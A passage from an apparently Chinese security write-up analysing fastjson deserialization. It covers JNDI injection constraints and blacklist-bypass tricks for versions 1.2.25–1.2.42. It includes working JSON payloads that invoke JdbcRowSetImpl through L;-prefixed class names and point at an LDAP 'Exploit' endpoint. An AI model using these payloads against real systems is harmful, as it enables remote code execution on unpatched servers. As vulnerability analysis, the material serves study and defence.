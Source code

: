 ![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20200225002407.png)

这里`trustURLCodebase`默认为false，如果想要正常执行`getObjectInstance`，就要让`getFactoryClassLocation`返回空。这里我们需要找一个classpath中已经存在的类来达到目的。

具体可参考[[浅析JNDI注入Bypass](https://www.cnblogs.com/Welk1n/p/11066397.html)](https://www.cnblogs.com/Welk1n/p/11066397.html)。

对于ldap，虽然我们不能返回codebase了，但是可以直接返回序列化数据，这就要求我们知道目标使用的库的gadget，利用难度上升了不少。

#### 补丁绕过

##### 1.2.25-1.2.41

在1.2.24出现漏洞之后，官方增加了一些防御措施。

首先是默认关闭了`autoType`，这次绕过也是建立在开启`autoType`的前提之下。

在加载类的时候会进行黑白名单的检测：

`fastjson-1.2.25-sources.jar!/com/alibaba/fastjson/parser/ParserConfig.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191024213552.png)

黑名单为官方维护，白名单由开发者自行维护：

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191024213719.png)

问题出在检测之后加载类的时候：

`fastjson-1.2.25-sources.jar!/com/alibaba/fastjson/util/TypeUtils.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025105743.png)

如果类名是`L`开头，`;`结尾，会将这两个字符去掉。在进行黑名单检测的时候使用的`startWith`，所以我们提交

```json
{"@type":"Lcom.sun.rowset.JdbcRowSetImpl;","dataSourceName":"ldap://127.0.0.1:1099/Exploit","autoCommit":true}
```

即可绕过类名检测。

##### 1.2.42

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20191025111225.png)

一个无效的补丁，如果类名是`L`开头，`;`结尾，会将这两个字符去掉，然后再检测，那再加一层`L;`不就好了。

```json
{"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;","dataSourceName":"ldap://127.0.0.1:1099/Exploit","autoCommit":true}
```

另外值得注意的一点是fastjson将黑名单变为了hash，增加漏洞挖掘的难度。

可以通过遍历的方式获得黑名单的明文：

[https://github.com/LeadroyaL/fastjson-blacklist](https://github.com/LeadroyaL/fastjson-blacklist)
